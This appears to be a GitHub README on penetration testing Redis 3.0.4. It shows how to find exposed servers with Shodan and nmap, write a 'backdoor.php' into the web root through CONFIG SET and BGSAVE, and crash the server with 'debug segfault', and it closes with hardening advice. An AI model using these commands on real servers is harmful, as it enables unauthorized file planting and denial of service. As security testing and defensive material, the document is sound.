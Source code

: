 # Redis.turb
## *Redis.io* Penetration Testing (v3.0.4)
![GitHub Logo](/Redis_Logo.jpg)
##### Intro

*Redis.io* is an open source in-memory database developed to store volatile data like messages, cache, cookie, etc.

I beg you to read [Redis.io/security](http://redis.io/topics/security) if you have any intention to setup *Redis.io* in production mode.

##### Discover misconfigured *Redis.io* using *Shodan* and *Nmap*

*Shodan* give us a powerful tool to find several misconfigured servers.

` { product:"Redis key-value store", port:"6379" } `

*Nmap* is useful to quickly find open ports.

`nmap -p 6379 -n --open --script=redis-info xxx.xxx.xxx.xxx/yy`

##### Upload malicious file
Requirement : access to CONFIG and BGSAVE or SAVE
```
localhost:6379> config set dir /var/www/html
OK
localhost:6379> config get dir
1) "dir"
2) "/var/www/html"
- - - - -
localhost:6379> config set dbfilename backdoor.php
OK
localhost:6379> config get dbfilename
1) "dbfilename"
2) "backdoor.php"
- - - - -
localhost:6379> set cmd "<?php phpinfo(); ?>"
OK
localhost:6379> bgsave
Background saving started
- - - - -
-rw-r--r-- 1 redis redis 45 Sep 19 17:01 backdoor.php
```

##### Denial Of Service

```
localhost:6379> debug segfault
(9.69s)
not connected> 
```

#### Security Best Practices

##### Only bind *Redis.io* to Loopback

Add to **redis.conf** :

`bind 127.0.0.1`

Allow access only from loopback (implied that the application that needs *Redis.io* running on the same host).

##### Enable authentication

Add to **redis.conf** :

`requirepass foobabar`

Thus, run *Redis.io* with your **redis.conf** file :

`redis-server /fullpath/to/redis.conf`

##### Fuzz Redis.io with OpenRCE/Sulley and AFL
[Lighting Talk](http://tfairane.github.io/fuzzing.html#/)

##### MUST READ
http://antirez.com/news/96

